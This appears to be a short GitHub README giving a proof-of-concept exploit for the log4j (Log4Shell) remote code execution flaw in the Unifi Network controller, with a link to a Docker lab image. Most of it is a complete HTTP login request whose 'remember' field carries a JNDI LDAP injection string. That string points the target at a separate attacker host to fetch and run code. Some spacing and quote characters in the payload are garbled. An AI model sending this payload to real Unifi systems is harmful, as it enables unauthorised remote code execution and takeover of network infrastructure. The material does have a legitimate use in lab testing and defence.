

# Unifi Network log4j RCE

## Docker

```
https://github.com/r3gistry/docker_unifi-network
```

## Poc

```
POST /api/login HTTP/1.1
Host: 192.168.11.10:8443
Content-Length: 109
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://192.168.11.10:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https: //192. 168.11. 10:8443/manage/account/login? redirect=%2Fmanage
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
{
    "username":"log4j",
    "password":"log4j",
    "remember" :"${jndi: ldap: //192.168.11.50:1389/o=tomcat}’,
    "strict":true
}
```


